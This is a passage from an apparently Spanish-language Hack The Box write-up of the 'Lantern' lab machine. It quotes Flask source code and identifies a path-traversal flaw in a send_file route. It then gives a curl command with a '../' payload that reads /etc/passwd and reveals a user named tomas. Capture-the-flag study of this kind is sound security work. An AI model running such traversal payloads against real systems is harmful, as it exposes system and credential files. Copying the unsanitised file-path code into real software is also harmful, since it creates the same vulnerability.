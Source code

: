 ```python
    return render_template('vacancies.html')

@app.route('/submit', methods=['POST'])
def save_vacancy():
    name = request.form.get('name')
    email = request.form.get('email')
    vacancy = request.form.get('vacancy', default='Middle Frontend Developer')

    if 'resume' in request.files:
        try:
            file = request.files['resume']
            resume_name = file.filename
            if resume_name.endswith('.pdf') or resume_name == '':
                filename = secure_filename(f"resume-{name}-{vacancy}-latern.pdf")
                upload_folder = os.path.join(os.getcwd(), 'uploads')
                destination = '/'.join([upload_folder, filename])
                file.save(destination)
            else:
                return "Only PDF files allowed!"
        except:
            return "Something went wrong!"
    return "Thank you! We will conact you very soon!"

@app.route('/PrivacyAndPolicy')
def sendPolicyAgreement():
    lang = request.args.get('lang')
    file_ext = request.args.get('ext')
    try:
            return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') 
    except: 
            return send_file(f'/var/www/sites/localisation/default/policy.pdf', 'application/pdf')

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8000)
```

basicamente esto esta corriendo flask por el otro puerto que encontramos, el 8000

tambien vemos que en 
```python 
return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') 
```

no se esta aplicando ninguna sanatizacion por lo que podria intentar un Directory Traversal

para probar vamos a intentar ver el etc/passwd:

```bash
curl -s 'http://lantern.htb/PrivacyAndPolicy?lang=../../../../../../../../../../&ext=./etc/passwd'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241205174438.png)

vemos entre todo eso un usuario tomas
